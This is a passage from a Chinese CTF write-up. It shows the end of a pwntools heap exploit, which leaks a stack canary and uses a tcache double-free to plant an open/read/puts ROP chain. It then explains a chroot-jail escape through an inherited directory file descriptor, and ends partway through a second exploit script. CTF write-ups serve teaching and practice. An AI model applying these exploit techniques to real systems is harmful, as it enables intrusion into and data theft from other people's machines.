 ```python
    canary = u64(p.recv(7).rjust(8,b"\x00")) #xxx....00
    print("canary:",hex(canary))
    #gdb.attach(p)
    
    #get stack_fake_chunk_2 & start rop
    fake_stack_chunk2 = stack_leak - 0x246

    flag_addr = fake_stack_chunk2 + 0x10 + 0x6 + 0x10 + 0x78
    rop = p64(pop_rdi) + p64(flag_addr) + p64(pop_rsi) + p64(0) + p64(open_addr) #0x28
    rop += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(flag_addr+8) + p64(pop_rdx) + p64(0x30) + p64(read_addr) #0x38
    rop += p64(pop_rdi) + p64(flag_addr+8) + p64(puts_addr) #0x18
    rop += b'flag\x00'

    print("fake_stack_chunk2:",hex(fake_stack_chunk2))
    new(0x300,b"eeeeeeee") #idx14
    delete(14)
    delete(14)
    new(0x300,p64(fake_stack_chunk2+0x10)) #idx15
    new(0x300,b"eeeeeeee") #idx16
    payload = b"a"*0x6 + p64(canary) + p64(0) + rop
    new(0x300,payload)
    
    p.interactive()
if __name__ == "__main__":
    exp()
```

比赛赶时间，exp写得比较乱，但是这是我认为最值得复现的一道题。



### jail | Author: eqqie

#### 分析

题目原题是awd，看着比较复杂，其实不然，exp利用原理也很 简单，关键就是熟练使用搜索引擎查找知识点。

这是个chroot jail越狱题，不同于普通的root身份越狱那么简单，需要找到一个已经打开的文件标识符，刚开始想破脑子也没想到在啥位置。后来查到fork之后子进程会和父进程共享文件描述符（本来是个简单的知识点，奈何我有一段时间没看书了嘤嘤嘤）。

梳理下过程：主进程fork出一个子进程然后用一个管道监听子进程返回的信息，子进程用execveat系统调用执行我们传入的二进制文件，但是此时的工作目录已经被切换到了/tmp/jail，切用户等级非root。

只需要写一个二进制文件利用已有的文件描述符切换工作目录到jail之外，然后切换到根目录，读取flag就行了。

观察发现程序的init函数中打开过 **/tmp** 和 **/** 两个目录的文件描述符，并且没有被关闭，继承到了子进程中。那么他们的文件描述符应分别为3和4....我其实想到这个思路挺早的，但是一直写的是fchdir(3)没成功...后来绕了一大圈改成了fchdir(4)突然就成功了，差点吐血。

后来koo师傅告诉我/tmp无法继承，因为fcntl禁止了，我才似懂非懂咋回事...



#### exp-python部分：

```python
from pwn import *
context.log_level = 'debug'

io = remote("pwn.challenge.mini.lctf.online",10009)

def runbin(lenth, data, arg):
    io.sendlineafter('len?\n', str(lenth))
    io.sendlineafter('data?\n', data)
    io.sendlineafter('elf?\n', arg)

if __name__ == '__main__':
    f = open('./exploit', 'rb')
```
